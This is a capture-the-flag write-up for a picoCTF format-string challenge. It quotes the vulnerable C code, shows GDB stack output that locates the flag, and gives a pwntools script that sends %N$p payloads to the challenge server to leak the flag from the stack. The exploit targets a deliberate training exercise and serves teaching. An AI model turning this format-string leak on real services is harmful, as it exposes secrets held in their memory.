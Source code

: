 ### Challenge Description
---
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!


Open source file and easily find out a format string bug here at ``` printf(buf) ```

```
  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);
```

Above, there is a chunk of code that open file flag.txt and store the content in the buf variable.

```
  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);
```
So, to exploit format string bug, we have to find out exactly where flag is placed on the stack using GDB and leak it. Remember to create 3 txt files named secret-menu-item-1.txt, secret-menu-item-2.txt, flag.txt in contemporary folder to test it locally.

```
gef➤  tel
0x00007fffffffd810│+0x0000: "comtamsuonbicha\n"  ← $rsp
0x00007fffffffd818│+0x0008: "onbicha\n"
0x00007fffffffd820│+0x0010: 0x0000000000000000
0x00007fffffffd828│+0x0018: 0x00007ffff7ffdab0  →  0x00007ffff7fcb000  →  0x03010102464c457f
0x00007fffffffd830│+0x0020: 0x00007fff00000000
0x00007fffffffd838│+0x0028: 0x00007fffffffd888  →  0x00000000ffffffff
0x00007fffffffd840│+0x0030: 0x0000000000000000
0x00007fffffffd848│+0x0038: 0x00007fffffffd890  →  "bolalotchanem\n"
0x00007fffffffd850│+0x0040: "picoCTF{fake_flag}\n"
0x00007fffffffd858│+0x0048: "fake_flag}\n"
```
We see that the flag is put on 0x00007fffffffd850, which is 14th argument according to calling convetion. However, it's not single 8 bytes so it ought to reach to several adjacent address from there.
Therefore, we'll write an brute-force exploit:

```
#!/usr/bin/python3

from pwn import *

exe = ELF('./format-string-1', checksec=False)
flag = b''
for i in range(14, 19):
	# r = process(exe.path)
	r = remote('mimas.picoctf.net', 53932)

	r.sendlineafter(b'to you:\n', f'%{i}$p'.encode())


	r.recvuntil(b"Here's your order: ")
	recv = r.recvall().strip()

	part = p64(int(recv.split(b'\n')[0], 16))
	if b'}' in part:
		flag += part
		print(flag, end='')	
		exit()
	else:
		flag += part
r.interactive()
```
